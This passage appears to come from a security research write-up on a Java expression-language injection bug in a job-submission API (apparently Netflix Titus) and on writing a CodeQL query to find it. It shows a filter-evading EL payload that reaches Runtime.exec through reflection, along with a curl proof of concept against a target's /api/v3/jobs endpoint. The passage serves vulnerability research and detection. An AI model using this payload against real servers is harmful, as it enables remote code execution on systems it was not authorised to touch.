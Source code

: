 We will get an exception from server because the method "getclass" doesn't exist!

To achieve RCE, the payload must not contain uppercase letter.

After working around, I found the solution!

Final payload is:

```
#{''.class.class.methods[0].invoke(null, 'java.lang.'+''.class.methods[59].invoke('r')+'untime').methods[6].invoke(''.class.class.methods[0].invoke(null, 'java.lang.'+''.class.methods[59].invoke('r')+'untime')).exec('touch /tmp/a.txt')}
```
With a little changes:

- Method Class.forName() = ''.class.class.methods[0]

- Method toUpperCase() = ''.class.methods[59]

- String "java.lang.Runtime" = 'java.lang.'+''.class.methods[59].invoke('r')+'untime'

PoC:

```
curl -i -s -k  -X 'POST' \
    -H 'User-Agent: Mozilla/5.0' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-type: application/json' \
    --data-binary $'{\x0d\x0a    \"applicationName\": \"localtest\",\x0d\x0a    \"owner\": {\"teamEmail\": \"me@me.com\"},\x0d\x0a    \"container\": {\x0d\x0a      \"image\": {\"name\": \"alpine\", \"tag\": \"latest\"},\x0d\x0a      \"entryPoint\": [\"/bin/sleep\", \"1h\"],\x0d\x0a      \"securityProfile\": {\"iamRole\": \"test-role\", \"securityGroups\": [\"sg-test\"]},\x0d\x0a\"softConstraints\": { \"constraints\": {\"#{\'\'.getClass()}\": \"hihi\"}}\x0d\x0a    },\x0d\x0a    \"batch\": {\x0d\x0a      \"size\": 1,\x0d\x0a      \"runtimeLimitSec\": \"3600\",\x0d\x0a      \"retryPolicy\":{\"delayed\": {\"delayMs\": \"1000\", \"retries\": 3}}\x0d\x0a    }\x0d\x0a  }' \
    'http://target:7001/api/v3/jobs'
```

# The QL 

Having succeeded in reproducing the PoC, I started to write the QL to find this bug!

According to author, the sources of tainted data should come from ConstraintValidator.isValid(...).

Which means all method isValid() that override ConstraintValidator.isValid(...) is our interested!

I defined a class that represent above description

```
class ConstraintValidatorisValidMethod extends Method{
	ConstraintValidatorisValidMethod(){
		exists(Method base|
		this = base
		and base.hasName("isValid")
		and base.getDeclaringType().getASourceSupertype*().hasName("ConstraintValidator")
		)
	}
}
```

